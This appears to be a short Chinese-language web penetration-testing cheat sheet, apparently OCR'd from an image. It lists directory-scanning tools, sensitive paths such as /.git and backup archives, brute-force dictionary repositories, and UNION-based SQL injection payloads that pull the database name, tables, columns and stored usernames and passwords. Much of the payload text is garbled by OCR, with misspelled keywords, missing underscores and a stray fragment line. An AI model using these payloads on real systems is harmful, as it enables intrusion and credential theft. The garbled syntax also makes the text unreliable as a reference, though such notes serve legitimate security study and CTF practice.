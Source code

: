 ## Web目录扫描

工具：御剑，ffuf，burpsuite

常用目录：

- /admin
- /admin.php
- /www.zip
- /src.izp
- /source.zip
- /.git
- /robots.txt
- /src

目录/FUZZ用户口令字典总结：

- https://github.com/rootphantomer/Blasting_dictionary
- https://github.com/TheKingOfDuck/fuzzDicts
- https://github.com/zxcvbn001/password_brute_dictionary
- kali-rockyou

## SQL注入

SQL注入联合查询常用payload：

?id=-1'union select 1,database(),3 --+ 数据库名

?id=-1'union select 1,2,group concat(table nane) database() from information schema.tables where--+ 数据表名

)from information schema.tables where

?id=-1'union select 1,2,group concat(column name) from information schema.columns 
wheretable name='users'--+列名

?id=-1'union select 1,2,group concat(usernampassword) from users--+ 数据
